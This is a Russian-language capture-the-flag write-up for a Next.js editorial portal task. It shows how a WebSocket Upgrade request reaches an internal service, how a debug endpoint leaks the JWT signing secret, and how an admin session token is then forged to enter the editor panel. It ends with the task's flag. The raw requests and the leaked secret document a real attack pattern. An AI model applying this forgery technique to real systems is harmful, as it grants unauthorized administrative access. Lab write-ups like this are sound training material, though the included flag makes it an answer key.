




```text
Описание
Корпоративный портал редакции "Северный вестник" недавно обновили и вынесли в новый контур публикации.
```

# Разведка и решение
Переходим по url таска и видим корпоративный портал.



Изучив сайт и проанализировав запросы в Burp Suite нашел интересные находки:
- Портал редакции на Next.js 

Так же нам подсказывают, что надо получить права админа и зайти в панель редактора.



upgrade-запрос уходит на localhost.
```text
GET http:// HTTP/1.1
Host: task.duckerz.ru:21046
Connection: Upgrade
Upgrade: websocket
```
Этот запросы вадал нам интересный ответ.
```html
HTTP/1.0 200 OK
server: BaseHTTP/0.6 Python/3.12.14
date: Mon, 16 Nov 2026 11:43:43 GMT
content-type: text/html; charset=utf-8
content-length: 248

<!doctype html>
<html lang="ru">
<head><meta charset="utf-8"><title>Service Index</title></head>
<body>
<h1>Service Index</h1>
<ul>
  <li><a href="/health">/health</a></li>
  <li><a href="/openapi.json">/openapi.json</a></li>
</ul>
</body>
</html>
```
Перейдем на ручку ``/openapi.json``. Вывод.
```json
HTTP/1.0 200 OK
server: BaseHTTP/0.6 Python/3.12.14
date: Mon, 16 Nov 2026 11:50:47 GMT
content-type: application/json
content-length: 491

{
  "openapi": "3.0.0",
  "info": {
    "title": "Northstar Internal Control Plane",
    "version": "1.4.3"
  },
  "paths": {
    "/health": {
      "get": {
        "summary": "Health check"
      }
    },
    "/api/v1/internal/debug/config": {
      "get": {
        "summary": "Current control-plane runtime configuration"
      }
    },
    "/api/v1/internal/session-template": {
      "get": {
        "summary": "Reference payload used for signed operator sessions"
      }
    }
  }
}
```
Заметим еще 2 ручки. 
- ``/api/v1/internal/debug/config`` - конфигурация
- ``/api/v1/internal/session-template`` - пример session jwt.

Посмотрим конфигурацию, может найдем там полезную информацию.
```text
GET http:///api/v1/internal/debug/config HTTP/1.1
```
Вывод.
```text
HTTP/1.0 200 OK
server: BaseHTTP/0.6 Python/3.12.14
date: Mon, 16 Nov 2026 11:54:15 GMT
content-type: application/json
content-length: 260

{
  "cookie_name": "ops_session",
  "issuer": "northstar-release",
  "admin_email": "release-admin@duckerz.task",
  "session_secret": "northstar-release-secret-435656",
  "algorithm": "HS256",
  "notes": "temporary debug endpoint left enabled during rollout"
}
```
Заметим, что теперь мы знаем jwt секрет ``northstar-release-secret-435656`` и сможем сделать поддельную jwt сессию.
Но перед этим надо посмотреть пример содержимого jwt сессии. 
```text
GET http:///api/v1/internal/session-template HTTP/1.1
```
Вывод.
```json
HTTP/1.0 200 OK
server: BaseHTTP/0.6 Python/3.12.14
date: Mon, 16 Nov 2026 11:57:11 GMT
content-type: application/json
content-length: 292

{
  "cookie_name": "ops_session",
  "header": {
    "alg": "HS256",
    "typ": "JWT"
  },
  "payload": {
    "sub": "release-admin@duckerz.task",
    "email": "release-admin@duckerz.task",
    "role": "admin",
    "iss": "northstar-release",
    "iat": 1794830231,
    "exp": 1794833831
  }
}
```
Теперь перейдем на сайт ``https://www.jwt.io`` и сделаем jwt токен с данными из примера.



Получили поддельный jwt токен. Теперь перейдем в ``Панель редактора``. 



# Flag
```text
DUCKERZ{w3bs0ck3t_upgr4d3_t0_l0c4lh0st_th3n_c0okie_f0rg3ry}
```
